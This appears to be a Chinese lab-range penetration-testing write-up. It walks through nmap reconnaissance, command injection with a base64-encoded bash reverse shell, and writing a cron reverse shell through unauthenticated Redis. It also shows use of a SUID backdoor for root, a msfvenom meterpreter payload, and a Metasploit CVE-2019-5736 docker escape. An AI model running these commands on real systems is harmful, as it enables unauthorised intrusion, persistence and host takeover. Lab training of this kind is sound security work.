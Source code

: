 # CMCC靶场实战

### 1、信息收集

```shell
nmap 192.168.12.0/24
# IP地址
192.168.12.154

# 开放端口
22、80、20000

# 开放服务
ssh、http、dnp
```

### 2、漏洞打点

1、弱口令爆破ssh——>失败

2、指纹识别20000端口——>发现是ssh服务——>待定

3、访问80端口

```shell
# 1、进入页面开始浏览，发现存在命令注入漏洞
# 2、利用命令注入反弹shell——>失败
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}
# 3、查看端口开放情况
```

![image-20230330185102776](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230330185102776.png)

```shell
# 好家伙，开放了6379和35381，nmap居然没有扫到，而且有可疑进程在向123.251.166.100:8000请求连接

# 4、继续利用命令注入，发现hack.php，cat一下（cat waf.php可以发现waf函数，可以尝试绕过，就不截图了）
```

![image-20230330185506072](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230330185506072.png)

![image-20230330185533408](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230330185533408.png)

### 3、获取shell

1、直接上蚁剑，在根目录下有.dockerenv文件，说明是docker环境

![image-20230330190028241](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230330190028241.png)

2、利用蚁剑给kali弹个shell，发现弹不了，也不能写文件

3、还是看看刚才发现的6379端口

```shell
┌──(root㉿kali)-[/opt/tools]
┌──(root㉿kali)-[/opt/tools]
└─# redis-cli -h 192.168.12.154 -p 6379
192.168.12.154:6379> get *
(nil)
192.168.12.154:6379> set a 1
OK
192.168.12.154:6379> 
```

没有密码，连接成功，那就利用redis写定时任务反弹试试

```shell
192.168.12.154:6379> set a "\n\n* * * * * bash -i >& /dev/tcp/192.168.12.152/5555 0>&1\n\n"
OK
192.168.12.154:6379> config set dir /var/spool/cron
OK
192.168.12.154:6379> config set dbfilename root
OK
192.168.12.154:6379> save
OK
```

还是不行

3、find / -perm -u=s -type f 2> /dev/null	查看哪些文件有s权限

在根目录下发现/.woop文件，应该是hack留下的后门

```shell
/.woop -p

# 获取到了root权限

# 写个公钥到/root/.ssh/authorized_keys
# xshell连接
# 这里可以判定，22端口是映射到docker的22，20000是宿主机的ssh服务
```

![image-20230330214654741](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230330214654741.png)

4、msf框架上场

```shell
# 生成木马
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.12.152 lport=5555 -f elf > shell.elf

# 将木马启动，反弹一个root的shell
# 连接msf
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp 
msf6 exploit(multi/handler) > set lhost 192.168.12.152
msf6 exploit(multi/handler) > set lport 5555
msf6 exploit(multi/handler) > run
```

![image-20230330214849251](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230330214849251.png)

5、docker逃逸（CVE-2019-5736）

```shell
# 确定docker环境
cat /proc/1/cgroup
根目录下 .dockerenv 文件
```

```shell
msf6 > search cve-2019-5736
msf6 exploit(multi/handler) > use 0
msf6 exploit(linux/local/docker_runc_escape) > set session 6 # 刚获取的root的session
msf6 exploit(linux/local/docker_runc_escape) > set lhost 192.168.12.152
msf6 exploit(linux/local/docker_runc_escape) > set lprot 6666
msf6 exploit(linux/local/docker_runc_escape) > run
```



### 





入侵排查

![image-20230331121319326](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230331121319326.png)